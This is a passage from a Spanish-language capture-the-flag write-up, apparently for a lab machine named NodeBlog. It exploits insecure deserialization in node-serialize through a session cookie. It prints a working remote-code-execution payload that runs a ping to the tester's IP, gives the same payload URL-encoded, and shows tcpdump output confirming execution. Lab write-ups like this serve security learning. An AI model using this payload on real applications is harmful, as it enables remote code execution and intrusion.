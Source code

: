 Vemos que se está empleando `node-serealize`, a la hora de `procesar` la `cookie` [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md), debemos `añadir ()` para que se acontezca un `JavaScript immediately invoked function expressions (IIFEs)`. Este es el `payload` que usaremos para `validar` el `Deserialization Attack`

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.16.23', function(error,stdout, stderr) { console.log(stdout) });}()"}
```

Lo siguiente que debemos hacer es `urlencodear` este `payload`, en mi caso voy a usar el `decoder` de `Burpsuite`

```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%36%2e%32%33%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

![](/assets/img/NodeBlog/image_9.png)

Nos ponemos en `escucha` de `trazas icmp`

```
# sudo tcpdump -i tun0 icmp
```

`Reemplazamos` la `cookie` de `sesión` por la nuestro `payload` y `recargamos` la `página`

![](/assets/img/NodeBlog/image_10.png)

`Recibimos` las `trazas icmp`

```
# sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:46:06.432195 IP 10.129.178.26 > 10.10.16.23: ICMP echo request, id 1, seq 1, length 64
00:46:06.432236 IP 10.10.16.23 > 10.129.178.26: ICMP echo reply, id 1, seq 1, length 64
```
